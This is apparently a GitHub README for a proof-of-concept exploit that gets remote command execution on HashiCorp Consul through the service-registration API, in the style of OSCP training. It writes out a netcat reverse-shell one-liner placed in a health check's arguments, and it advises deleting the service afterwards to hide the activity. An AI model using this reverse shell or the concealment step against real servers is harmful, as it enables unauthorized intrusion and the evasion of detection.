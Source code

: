 # Hashicorp Consul - Remote Command Execution PoC
Author: blu3ming
This is a variation of the PoC found in Metasploit. The objective of this script is not to depend on that tool (OSCP style) and to perform the same procedure manually.

## Consul
Consul is a free and open-source service networking platform developed by HashiCorp. It has a RCE vulnerability when creating a service through it's API.

## Creating a service
As [Consul documentation](https://developer.hashicorp.com/consul/api-docs/agent/service) describes, we can create a service using the /v1/agent/service/register endpoint, which receives the following data via a PUT request:

- ID: Specifies a unique ID for this service
- Name: Specifies the logical name of the service
- Address: Specifies the address of the service
- Port: Specifies the port of the service
- Check: Specifies a check and, according to it's [documentation](https://developer.hashicorp.com/consul/api-docs/agent/check), uses the following data:
    * Args: Specifies command arguments to run to update the status of the check (eg. "args": ["sh", "-c", "..."])
    * Interval: Specifies the frequency at which to run this check
    * Timeout: Specifies a timeout for outgoing connections in the case of a Script, HTTP, TCP, UDP, or gRPC check
   
## Remote command execution
The creation of this service requires an authentication token from the Consul service, also known as ACL Token. As we can see, we can declare a command inside the Check.Args parameter, and Consul will execute it for us. In this case, we want to execute a reverse shell to get access to the Consul server:

`"Args":["sh", "-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f"]`
  
With this command, now we can bind for a connection with the help of the **shell** function of the Python library **pwntools**.

## Getting access to the server
Consul returns an interactive console:
![imagen](https://user-images.githubusercontent.com/25083316/206324244-5449ebe5-269d-4634-847e-614f7b09c108.png)

## Deleting the service
Finally, we need to delete the service created in order to hide oir activity. This can be done making a PUT request to the /v1/agent/service/deregister/[NAME] endpoint, of course, still using the ACL Token from Consul.
![imagen](https://user-images.githubusercontent.com/25083316/206324287-f6ad616c-67f7-4e9a-b114-1f33ac50fd85.png)

## Dependencies
- requests
- json
- pwntools (can be installed via "pip install pwn")
- threading
